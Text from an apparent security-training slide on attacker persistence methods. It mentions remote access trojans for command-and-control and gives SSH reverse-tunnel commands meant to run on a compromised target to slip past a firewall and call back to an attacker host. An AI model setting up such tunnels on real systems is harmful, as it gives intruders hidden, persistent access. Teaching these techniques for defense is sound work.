

# Advanced persistence methods
RAT’s (Remote Access Tools/Trojans)
Originally meant for sys admins and general system programers
Can be used in C2 infrastructure
Easy to find and download
SSH
Tunnel ssh around firewall for reverse listener
On target: ssh -R “port-to-forward-to”:localhost:22 host-ip
On host: ssh -p “port-to-forward-do” localhost